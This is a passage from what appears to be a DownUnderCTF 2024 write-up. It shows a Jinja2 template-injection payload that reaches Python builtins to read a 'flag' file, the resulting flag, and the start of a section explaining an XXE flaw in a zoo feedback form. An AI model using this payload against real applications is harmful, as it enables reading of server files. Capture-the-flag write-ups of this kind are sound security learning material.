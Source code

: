 ```py
{{ request.__class__._load_form_data.__globals__.__builtins__.open("flag").read() }}
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-11.png)

Flag: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

## Web (beginner) : zoo feedback form 

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-1.png)

The code below shows that the user XML input is passed directly into the `etree.fromstring()` function. This means that if an attacker sends a malicious XML payload (for example, an XML External Entity (XXE) injection), the server will process it, potentially leading to data exfiltration.
